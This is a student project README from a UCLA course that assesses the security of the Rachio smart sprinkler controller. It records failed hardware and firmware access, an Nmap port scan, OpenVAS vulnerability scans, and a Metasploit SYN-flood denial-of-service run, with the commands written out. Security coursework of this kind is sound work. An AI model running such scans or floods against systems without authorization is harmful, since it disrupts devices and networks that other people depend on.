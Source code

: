 # UCLA ECE 209AS: Special Topics in Circuits and Embedded Systems
Hacking Rachio, the Smart WiFi Sprinkler Controller

## What is Rachio?
Rachio is the Smart Sprinkler Controller that gives you control of your sprinklers and watering bill, right from your smart phone.
![Rachio](https://github.com/ffrqw/ECE209AS/blob/master/images/rachio.jpg?raw=true | width=48)
## Security Attack Model Navigation
We navigated security attack models of Rachio following the guidance of 
### Hardware  
- Serial ports exposed  
- Insecure authentication mechanism used in the serial ports  
- Ability to dump the firmware over JTAG or via Flash chips  

**Attempt**: Access to the circuit board.  
**Result**: Failed. The device is well packaged with no screws. The only way to open it is smashing the shell. But we don’t have proper tools to do so.  
![Rachio well encasulated]()

### Firmware
- Ability to modify firmware  
- Hardcoded sensitive values in the  firmware—API keys,
passwords, staging URLs, etc.  
- Ability to understand the entire functionality of the device
through the firmware  
- File system extraction from the firmware  

**Attempt**: Download from official website.  
**Result**: Failed. Refuse to provide.  

**Attempt**: Draw from hardware.  
**Result**: Failed. Due to the same reason in hardware part.  


### Penetration Testing 

In our Penetration testing, we compared Rachio with NxEco, another popular smart sprinkle device. We conducted our test under the same WIFI. Based on this condition, we did reconnaissance on the devices and tried to find infomation about OS of the devices. Then we did vulunrability analysis with OpenVAS and found a potential vulunrability that the devices are using tcp connection that may be attacked by DoS(Denial of Service). Finally we executed a DoS attack to see if the vulunrability exists.
Here are the implementations.

**Port Scanning**
- Metasploit Nmap  


```
root@kali:~# nmap -v -sV -oA port_scanning 192.168.1.0/29
```

- Results  

NxEco  

![nxeco_scan](https://github.com/ffrqw/ECE209AS/blob/master/images/nxeco_scan.png?raw=true){width="50%"}

Rachio  

![rachio_scan](https://github.com/ffrqw/ECE209AS/blob/master/images/rachio_scan.png?raw=true){:height="50%" width="50%"}

**Vulunrablity Analysis**
- OpenVAS

*Results*  

NxEco  

![nxeco_edit](https://github.com/ffrqw/ECE209AS/blob/master/images/nxeco_edit.png?raw=true){:height="50%" width="50%"}

![nxeco_results](https://github.com/ffrqw/ECE209AS/blob/master/images/nxeco.png?raw=true){:height="50%" width="50%"}

Rachio  

![rachio_edit](https://github.com/ffrqw/ECE209AS/blob/master/images/rachio_edit.png?raw=true){:height="50%" width="50%"}

![rachio_results](https://github.com/ffrqw/ECE209AS/blob/master/images/rachio.png?raw=true){:height="50%" width="50%"}


**DoS Attack**
- Metasploit auxiliary module attack

```
msf > use auxiliary/dos/tcp/synflood 
msf auxiliary(dos/tcp/synflood) > set RHOST 192.168.1.9
RHOST => 192.168.1.9
msf auxiliary(dos/tcp/synflood) > run
```
*Results*  

NxEco  

![nxeco_flood](https://github.com/ffrqw/ECE209AS/blob/master/images/nxeco_flood.png?raw=true)

Rachio  

![rachio_flood](https://github.com/ffrqw/ECE209AS/blob/master/images/rachio_flood.png?raw=true){:height="80%" width="80%"}


### Mobile application
- Reverse engineering the mobile app  
- Dumping source code of the mobile application  
- Side channel data leakage  
- Runtime manipulation attacks  
- Insecure network communication  
- Outdated 3rd party libraries and SDKs  
**Attempt**:
Analyze the Android app.

## Timeline
XXX
  
## Reference
【1】IoT Hackers Handbook: An ultimate guide to hacking the Internet of Things
【2】https://www.kali.org/

